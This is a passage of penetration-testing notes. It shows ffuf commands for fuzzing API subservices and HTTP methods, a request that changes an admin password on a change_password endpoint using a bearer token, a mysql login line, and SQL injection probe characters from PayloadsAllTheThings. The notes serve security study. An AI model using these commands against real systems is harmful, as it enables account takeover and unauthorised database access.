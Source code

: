 the look for subservices once service_A identified


```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ip/endpoint_name/v1/service_A/subservice_A1 -mc 200

```

### identify Methods


```bash

ffuf -w test_methods.txt -u https://ip/endpoint_name/v1/user/change_password -X FUZZ -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4" \
-d '{"name": "admin", "password": "hacked"}' -fr "error"

# where FUZZ is replaced by POST, PUT, GET methods by using a regular token obtained throughout the session

```

* No error mean that this particular method worked
* particularly here admin password might have been changed




## SQL injection

Connect

`mysql -u root -p'pass' -h ip`

A very nice cheat sheet is provided by Portswigger: https://portswigger.net/web-security/sql-injection/cheat-sheet


### Test for SQLi vulnerability
* It is necessary to identify a possible SQLi entry point
* Use of special characters can help (got from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection)):

```bash
'
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;  # required for XML content

Multiple encoding

%%2727
%25%27

Merging characters

`+HERP
'||'DERP
'+'herp
```